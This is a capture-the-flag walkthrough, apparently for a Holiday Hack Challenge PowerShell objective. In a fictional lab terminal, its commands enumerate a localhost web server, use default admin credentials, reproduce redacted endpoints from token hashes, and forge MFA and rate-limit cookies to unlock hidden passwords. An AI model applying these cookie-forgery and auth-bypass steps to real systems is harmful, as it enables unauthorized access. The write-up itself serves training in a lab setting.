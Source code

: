 # OBJECTIVE 10 - PowerShell #
Difficulty: ❄️❄️❄️

[Direct Link](https://hhc24-wetty.holidayhackchallenge.com?&challenge=termPowershell)

## OBJECTIVE : ##
>Team Wombley is developing snow weapons in preparation for conflict, but they've been locked out by their own defenses. Help Piney with regaining access to the weapon operations terminal.
#
## HINTS: ##
<details>
  <summary>Hints provided for Objective 10</summary>
  
>-	GOLD:
>    -  I overheard some of the other elves talking. Even though the endpoints have been redacted, they are still operational. This means that you can probably elevate your access by communicating with them. I suggest working out the hashing scheme to reproduce the redacted endpoints. Luckily one of them is still active and can be tested against. Try hashing the token with SHA256 and see if you can reliably reproduce the endpoint. This might help, pipe the tokens to Get-FileHash -Algorithm SHA256.
>    -  They also mentioned this lazy elf who programmed the security settings in the weapons terminal. He created a fakeout protocol that he dubbed Elf Detection and Response "EDR". The whole system is literally that you set a threshold and after that many attempts, the response is passed through... I can't believe it. He supposedly implemented it wrong so the threshold cookie is highly likely shared between endpoints!

  
</details>

#  

## PROCEDURE : ##
### 🥈 SILVER MEDAL ###
The first few questions are pretty straightforward:
```powershell
1) There is a file in the current directory called 'welcome.txt'. Read the contents of this file
PS /home/user> Get-Content welcome.txt

2) Geez that sounds ominous, I'm sure we can get past the defense mechanisms. 
We should warm up our PowerShell skills. 
How many words are there in the file?
PS /home/user> Get-Content welcome.txt | Measure-Object -word
Lines Words Characters Property
----- ----- ---------- --------
        180

3) There is a server listening for incoming connections on this machine, that must be the weapons terminal. What port is it listening on?
PS /home/user> netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:1225          0.0.0.0:*               LISTEN     
tcp6       0      0 172.17.0.3:35806        52.188.247.151:443      ESTABLISHED

4) You should enumerate that webserver. Communicate with the server using HTTP, what status code do you get?
PS /home/user> Invoke-WebRequest http://localhost:1225
Invoke-WebRequest: Response status code does not indicate success: 401 (UNAUTHORIZED).

5) It looks like defensive measures are in place, it is protected by basic authentication. 
Try authenticating with a standard admin username and password.
Ps/home/user> $cred = Get-Credential
PS /home/user> Invoke-WebRequest http://localhost:1225 -Credential $cred -AllowUnencryptedAuthentication
```
It starts to get more interesting from this point – to answer this next question, we need to create a for loop that cycles through endpoints sequentially and measures the number of words for each one.  The loop must break when it finds an endpoint with exactly 138 words:
```powershell
6) There are too many endpoints here. 
Use a loop to download the contents of each page. What page has 138 words? 
When you find it, communicate with the URL and print the contents to the terminal.
PS /home/user> $i=1                 
PS /home/user> for (;$i -le 15;$i++)    
>> {$Wordcount=(Invoke-WebRequest http://localhost:1225/endpoints/$i -Credential $cred -AllowUnencryptedAuthentication | Measure-Object -word).words                                                                                      
>> Write-Host "Element No: $i has $Wordcount words"
>> If ($Wordcount -eq 138){
>> $Response = Invoke-WebRequest http://localhost:1225/endpoints/$i -Credential $cred -AllowUnencryptedAuthentication 
>> Write-Host $Response.Content   
>> break 
>> } 
>> } 
Element No: 1 has 130 words                                                                                          
Element No: 2 has 127 words
.
.
Element No: 11 has 150 words
Element No: 12 has 123 words
Element No: 13 has 138 words
<html><head><title>MFA token scrambler</title></head><body><p>Yuletide cheer fills the air,<br>    A season of love, of care.<br>    The world is bright, full of light,<br>    As we celebrate this special night.<br>    The tree is trimmed, the stockings hung,<br>    Carols are sung, bells are rung.<br>    Families gather, friends unite,<br>    In the glow of the fire’s light.<br>    The air is filled with joy and peace,<br>    As worries and cares find release.<br>    Yuletide cheer, a gift so dear,<br>    Brings warmth and love to all near.<br>    May we carry it in our hearts,<br>    As the season ends, as it starts.<br>    Yuletide cheer, a time to share,<br>    The love, the joy, the care.<br>    May it guide us through the year,<br>    In every laugh, in every tear.<br>    Yuletide cheer, a beacon bright,<br>    Guides us through the winter night </p><p> Note to self, remember to remove temp csvfile at http://127.0.0.1:1225/token_overview.csv</p></body></html>

7) There seems to be a csv file in the comments of that page.  That could be valuable, read the contents of that csv-file!
PS /home/user> (Invoke-WebRequest -uri http://localhost:1225/token_overview.csv -Credential $cred -AllowUnencryptedAuthentication).content > csvfile.csv
PS /home/user> Get-Content ./csvfile.csv
    
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
# [*] SYSTEMLOG
# [*] Defence mechanisms activated, REDACTING endpoints, starting with sensitive endpoints
# [-] ERROR, memory corruption, not all endpoints have been REDACTED
# [*] Verification endpoint still active
# [*] http://127.0.0.1:1225/tokens/<sha256sum>
# [*] Contact system administrator to unlock panic mode
# [*] Site functionality at minimum to keep weapons active
```

Conveniently the `.csv` file tells us that we can communicate with an endpoint at `http://localhost:1225/tokens/<sha256sum>` and luckily there is still one sha256 value that hasn’t been redacted, so we can use it to call the api endpoint.  

```powershell
8) Luckily the defense mechanisms were faulty! 
There seems to be one api-endpoint that still isn't redacted! Communicate with that endpoint!
PS /home/user> Invoke-WebRequest http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C -Credential $cred -AllowUnencryptedAuthentication
```

Now things start to get trickier – the api endpoint requires a cookie.  We can set this by creating a `WebRequestSession` and adding a cookie to it:
```powershell
9) It looks like it requires a cookie token, set the cookie and try again.
PS /home/user> $url1 = “http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C”
PS /home/user> $session1 = New-Object Microsoft.PowerShell.Commands.WebRequestSession      
PS /home/user> $cookie1 = New-Object System.Net.Cookie("token", "5f8dd236f862f4507835b0e418907ffc", "/", "127.0.0.1")
PS /home/user> $session1.Cookies.Add($cookie1)
PS /home/user> (Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content
                                              
<h1>Cookie 'mfa_code', use it at <a href='1732384990.947703'>/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C</a></h1>
```
Ok, so now we’ve got a MFA token and the url path to use it at.  I created a new variable for a new session `$session2` and another variable for the new url to call `$url2`.
```powershell
10) Sweet we got a MFA token! We might be able to get access to the system.
 Validate that token at the endpoint!
PS /home/user> $session2 = New-Object Microsoft.PowerShell.Commands.WebRequestSession      
PS /home/user>  $url2=”http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C”
```

Next we need a regex expression to extract the mfa code from the cookie.  It matches for `href=` and extracts the part following it.  So this command will request the mfa code and extract it from the server response and place it neatly in a variable called `$mfa_token`.

At the same time we also want to add this cookie (along with the previously obtained `token` cookie) to our session before calling `$url2`.  We can use semi-colons `;` to include all the separate powershell commands on a single line and run them all at once and before the MFA token expires:
```powershell
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
(Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content 

<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p> 
```

The response we get is something that looks like a base64 encoded message and we are asked to decode it.  For this we need to follow the same procedure as for question 10 to generate the mfa token, pass it to the server and obtain a response. 

Next we need a regex expression to extract only the text we are interested in that lies between `<p>` and `</p>` and finally we can base64 decode this to complete the objective:
```powershell
11) That looks like base64! Decode it so we can get the final secret! 
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
$Response = (Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content ;
Write-Host $Response;
$base64String = [regex]::match($Response, "<p>(.*?)</p>").Groups[1].Value;
Write-Host $base64String;
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64String));
Write-Host $decodedString

Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction

Hurray! You have thwarted their defenses!
Alabaster can now access their weaponry and put a stop to it.
Once HHC grants your achievement, you can close this terminal.
```
#
### 🥇 GOLD MEDAL ###

For this next part, I decided it would be best to stick to where the hints are trying to guide me.  First let’s try to replicate the token hashes using `Get-Filehash`.

We can achieve this by testing with the last token in the `.csv` file (since we know what it’s correct hash value should be).  The token value needs to be placed in a file and the `Get-FileHash` is called on that file, with `Select-Object` being used to limit the output to just the hash value:
```powershell
PS /home/user>“5f8dd236f862f4507835b0e418907ffc” > token_1
PS /home/user> Get-FileHash ./token_1 -Algorithm SHA256 | Select-Object -ExpandProperty Hash
4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

OK – this looks promising, it looks like we have the correct hash method – so let’s try hashing another token now:
```powershell
PS /home/user> “67c7aef0d5d3e97ad2488babd2f4c749” > token_2
PS /home/user> Get-FileHash ./token_2 -Algorithm SHA256 | Select-Object -ExpandProperty Hash
BAC2F3580B6491CBF26C84F5DCF343D3F48557833C79CF3EFB09F04BE0E31B60
```

Ok let’s try calling an endpoint with this new hash now:
```powershell
PS /home/user> $session2 = New-Object Microsoft.PowerShell.Commands.WebRequestSession                                                                                                                                                         PS /home/user> $url2 = "http://127.0.0.1:1225/mfa_validate/BAC2F3580B6491CBF26C84F5DCF343D3F48557833C79CF3EFB09F04BE0E31B60"                                                                                                    
PS /home/user> $mfa_token = [regex]::match((Invoke-WebRequest -Uri $url1 -WebSession $session1 -Credential $cred -AllowUnencryptedAuthentication).Content, "href='([^']*)'").Groups[1].Value ; 
$cookie2 = New-Object System.Net.Cookie("mfa_token","$mfa_token","/", "127.0.0.1") ; $session2.Cookies.Add($cookie1) ; 
$session2.Cookies.add($cookie2) ; 
(Invoke-WebRequest -Uri $url2 -WebSession $session2 -Credential $cred -AllowUnencryptedAuthentication).content 
<h1>[*] Setting cookie attempts</h1> 
PS /home/user> $session2.Cookies.GetAllCookies()

Comment    : 
CommentUri : 
HttpOnly   : False
Discard    : False
Domain     : 127.0.0.1
Expired    : False
Expires    : 01/01/0001 00:00:00
Name       : attempts
Path       : /
Port       : 
Secure     : False
TimeStamp  : 12/01/2024 16:47:14
Value      : c25ha2VvaWwK01
Version    : 0 
```

We have a new cookie called `attempts` with a value of `c25ha2VvaWwK01`.  If we base64 decode this value in Cyberchef we find that `c25ha2VvaWwK` decodes to **snakeoil**, so the `01` at the end must be some kind of counter.   In fact, if we make another attempt at resolving this endpoint we see that the cookie’s value changes to `c25ha2VvaWwK02`.  This keeps on going until the 10th attempt, beyond which the cookie’s value stops being incremented.  This is pretty much what I was expecting to see given the hints we are given.

At this point it’s just a matter of importing the data as a `.csv` file, re-initialising the web-session and going through each end-point one by one, calculating its hash, generating a MFA token and calling the endpoint with the correct cookies set.  For the `attempts` cookie we can set this to `c25ha2VvaWwK10` so that all the endpoints are resolved. Microsoft Co-Pilot was a huge help in [creating a script for this](Code/Enumerate_Endpoints.ps1) which I typed into Notepad++ and then simply copied and pasted it into the console.

And this time we get a successful response from one of the endpoints and we don’t even have to base64 decode it!

```powershell
Current Token: 7b7f6891b6b6ab46fe2e85651db8205f :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
Current Token: 45ffb41c4e458d08a8b08beeec2b4652 :   <h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
Current Token: d0e6bfb6a4e6531a0c71225f0a3d908d :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
Current Token: bd7efda0cb3c6d15dd896755003c635c :   <h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
```
 

